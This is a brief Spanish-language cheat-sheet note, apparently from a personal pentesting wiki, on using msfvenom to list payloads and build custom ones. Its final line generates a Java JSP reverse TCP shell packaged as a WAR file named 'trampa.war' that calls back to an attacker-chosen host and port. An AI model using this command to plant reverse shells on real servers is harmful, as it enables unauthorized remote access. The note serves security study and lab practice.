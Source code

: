 ## ¿Para qué sirve?

Crear un [[Payload]] personalizado.

## Encontrar Payloads

`msfvenom -l payloads`

Existe otra variante para buscar por aquellos Payloads que funcionen con, por ejemplo, [[Java]], [[PHP]]...

`msfvenom -l payloads | grep java`

## Creando Payload personalizado

`msfvenom -p PayloadName LHOST=nuestraDireccionIP LPORT=puertoQueQueramos -f extensiónDeArchivo -o name`

`msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.10.10 LPORT=44 -f war -o trampa.war`

